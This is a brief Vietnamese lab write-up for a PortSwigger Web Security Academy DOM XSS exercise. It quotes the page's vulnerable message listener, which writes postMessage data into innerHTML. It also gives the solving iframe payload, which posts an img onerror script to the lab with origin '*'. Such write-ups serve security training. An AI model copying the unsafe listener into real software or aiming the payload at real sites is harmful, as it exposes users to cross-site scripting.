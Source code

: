 ## DOM XSS using web messages

> Lab này sẽ hướng dẫn chúng ta postMessage tới target exploit bằng bằng cách gọi hàm print() để solve lab

![](/imgs/DOM-BASED-VULNERABILITIES/1.png?raw=true)

Vì thế ta sẽ sử dụng postMessage để send request đi tới địa chỉ của lab.

Nếu check source ta sẽ thấy function **addEventListener** dùng để lắng nghe message.

```javascript
<script>
window.addEventListener('message', function(e) {
document.getElementById('ads').innerHTML = e.data; })
</script>
```

Ở đây message sẽ là error để gọi function print, iframe sẽ trỏ tới địa chỉ lab.

```html
<iframe src="https://ac351fcd1f9b878680381a3b000f0042.web-security-academy.net/” onload="this.contentWindow.postMessage('<img src=x onerror=print()>','*')">
```
![](/imgs/DOM-BASED-VULNERABILITIES/2.png?raw=true)

### Tài liệu tham khảo
- [DOM-based Vuln: ](https://portswigger.net/web-security/dom-based)
- [PostMesage to Iframe: ](https://developer.mozilla.org/en-US/docs/Web/API/Window/postMessage)